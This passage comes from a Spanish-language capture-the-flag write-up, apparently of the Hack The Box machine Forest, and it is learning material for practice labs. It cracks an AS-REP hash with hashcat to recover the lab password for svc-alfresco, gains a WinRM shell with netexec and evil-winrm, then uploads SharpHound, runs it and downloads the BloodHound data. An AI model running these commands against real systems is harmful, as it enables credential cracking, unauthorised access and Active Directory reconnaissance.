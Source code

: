 <figure><img src="../../../../../.gitbook/assets/731_vmware_c9z2LMmfJ7.png" alt=""><figcaption></figcaption></figure>

Con el uso de la herramienta de **hashcat** realizaremosataque de fuerza bruta para obtener la contraseña a través de un diccionario, como rockyou. Finalmente obtenemos que la contraseña para el usuario "svc-alfresco" es "s3rvice".

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../../../.gitbook/assets/732_vmware_ofd245moEk.png" alt=""><figcaption></figcaption></figure>

## Flag user.txt

Procederemos a comprobar que con dichas credenciales podemos acceder al WinRIM que hemos encontrado expuesto en la máquina. Comprobamos que efectivamente nos aparece como **Pwn3d**.

```
netexec winrm 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

<figure><img src="../../../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Procederemos a conectarnos mediante **evil-winrm** y con las credenciales encontradas, comprobamos la flag de **user.txt**.

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

<figure><img src="../../../../../.gitbook/assets/733_vmware_3PG2S2pG7m.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### BloodHound Enumeration with SharpHound

Procederemos a pasarnos al equipo que queremos comprometer el binario de `SharpHound.exe` y a recopilar toda la información del sistema.

```powershell
upload SharpHound.exe

./SharpHound.exe --CollectionMethods All
```

<figure><img src="../../../../../.gitbook/assets/739_vmware_B3kgvJkw6V.png" alt=""><figcaption></figcaption></figure>

El .zip que nos genere, nos lo descargaremos a nuestra Kali.

```powershell
download 20241026170412_BloodHound.zip
```

<figure><img src="../../../../../.gitbook/assets/740_vmware_z9fV1U5zLT.png" alt=""><figcaption></figcaption></figure>
